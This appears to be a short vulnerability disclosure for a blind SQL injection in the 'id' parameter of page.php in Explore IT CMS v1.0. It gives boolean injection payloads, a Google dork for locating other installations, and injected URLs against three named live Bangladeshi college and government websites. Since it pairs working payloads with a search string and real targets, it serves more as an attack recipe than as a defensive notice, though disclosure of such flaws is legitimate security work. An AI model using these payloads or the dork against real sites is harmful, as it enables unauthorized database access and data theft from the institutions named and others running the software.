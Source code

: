 # Explore IT CMS v1.0 has a SQL Injection Vulnerability
Google Dork: "Technical Assistance by: explore IT"

Tested On: Windows 11 + Firefox / Burp Suite

*********************************************************

### Description

Explore IT CMS v1.0 has a blind SQL Injection Vulnerability `id` in page.php with `.php?id=`

[+]:
Vulnerable Parameter:
`id` in URLs with `.php?id=`
Append `' and 1=1--+` and `' and 1=2--+` to the URL and observe the difference in responses.

*********************************************************

### Demo 1:

```
https://kachalonggovtcollege.edu.bd/page.php?id=2  
→ https://kachalonggovtcollege.edu.bd/page.php?id=2'+AND+1=1--+
→ https://kachalonggovtcollege.edu.bd/page.php?id=2'+AND+1=2--+
```

### Demo 2:
```
https://www.rangamaticollege.gov.bd/page.php?id=13  
→ https://www.rangamaticollege.gov.bd/page.php?id=13'+AND+1=1--+
→ https://www.rangamaticollege.gov.bd/page.php?id=13'+AND+1=2--+
```

### Demo 3:
```
https://www.cgsacollege.edu.bd/page.php?id=3  
→ https://www.cgsacollege.edu.bd/page.php?id=3'+AND+1=1--+
→ https://www.cgsacollege.edu.bd/page.php?id=3'+AND+1=2--+
```



*********************************************************

[+] Google Dork:
"Technical Assistance by: explore IT"

*********************************************************